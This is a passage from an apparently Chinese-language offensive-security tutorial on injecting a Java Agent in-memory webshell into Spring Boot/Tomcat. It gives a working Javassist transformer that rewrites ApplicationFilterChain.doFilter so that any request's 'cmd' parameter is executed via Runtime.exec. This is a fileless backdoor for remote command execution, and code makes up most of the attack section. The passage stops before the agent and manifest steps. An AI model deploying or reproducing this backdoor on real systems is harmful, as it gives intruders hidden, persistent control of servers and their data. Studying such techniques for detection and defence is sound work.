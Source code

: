 ## Agent 内存马实现
本文章其实主要写到现在,也是终于可以开始写 Agent 内存马了
但是这里主要的实现是通过 Springboot 来的，我个人 Springboot 还不是很熟，所以只能依葫芦画瓢，这篇 Agent 内存马之后就去补 Spring 基础了
根据 tomcat 的责任链机制，我们可以知道，每一次请求的调用栈中都会有一个反复调用`InternalDoFilter`的链`**internalDoFilter->doFilter->service**` ，也就是说 Spring 他在处理请求时会不断调用 internalFilter 方法，或者是 Dofliter 方法，是不是和我们上面的 Sleep_Hello 不断调用 helloworld 方法一样？我们既能够知道他 JVM 的具体名称，也能够通过 Javassist 去修改这两个方法的字节码内容，实现不断调用我们的改写的恶意方法的效果
而且这两个方法具有参数`**request response**`** **拿来回显也是很好的选择

![image.png](https://cdn.nlark.com/yuque/0/2024/png/36078896/1706249152119-688b526a-868a-445e-9184-c60b3a145ad5.png#averageHue=%232a2d33&clientId=uc9d4b41e-c695-4&from=paste&height=109&id=u40bccdab&originHeight=163&originWidth=1247&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=156919&status=done&style=none&taskId=u9b61b101-da2d-4810-87cc-c88d1e91de7&title=&width=831.3333333333334)

![image.png](https://cdn.nlark.com/yuque/0/2024/png/36078896/1706249165800-c60da297-472d-472b-ad82-7c63438da01b.png#averageHue=%232a2e34&clientId=uc9d4b41e-c695-4&from=paste&height=193&id=uc294bf54&originHeight=289&originWidth=1515&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=323639&status=done&style=none&taskId=u625455c3-8c92-4522-86d5-a61433d1b16&title=&width=1010)

### 注入过程
首先先写一下最终通过 javassit 修改字节码的内容
```java
import java.lang.instrument.ClassFileTransformer;
import java.lang.instrument.IllegalClassFormatException;
import java.security.ProtectionDomain;
import javassist.*;
public class Hello_Transform implements ClassFileTransformer {
    @Override
    public byte[] transform(ClassLoader loader, String className, Class<?> classBeingRedefined, ProtectionDomain protectionDomain, byte[] classfileBuffer) throws IllegalClassFormatException {
        try{
            //获取CtClass对象的容器 ClassPool
            ClassPool classPool=ClassPool.getDefault();

            //添加额外的类搜索路径
            if(classBeingRedefined!=null){
                ClassClassPath ccp=new ClassClassPath(classBeingRedefined);
                classPool.insertClassPath(ccp);
            }

            //通过Ct获取到我们待会要修改字节码的类
            CtClass ctClass=classPool.get("org.apache.catalina.core.ApplicationFilterChain");
            System.out.println(ctClass);

            //获取目标方法
            CtMethod ctMethod= ctClass.getDeclaredMethod("doFilter");

            //设置方法体，也就是具体修改的修改字节码的部分
            String body = "{" +
                    "javax.servlet.http.HttpServletRequest request = $1\n;" +
                    "String cmd=request.getParameter(\"cmd\");\n" +
                    "if (cmd !=null){\n" +
                    "  Runtime.getRuntime().exec(cmd);\n" +
                    "  }"+
                    "}";
            ctMethod.setBody(body);

            //返回目标类字节码
            byte[] bytes =ctClass.toBytecode();
            return bytes;

        }catch (Exception e){
            e.printStackTrace();
        }
        return null;
    }
}
```
然后写一下 Agentmain 以及 MF 文件，之后打包成 jar 包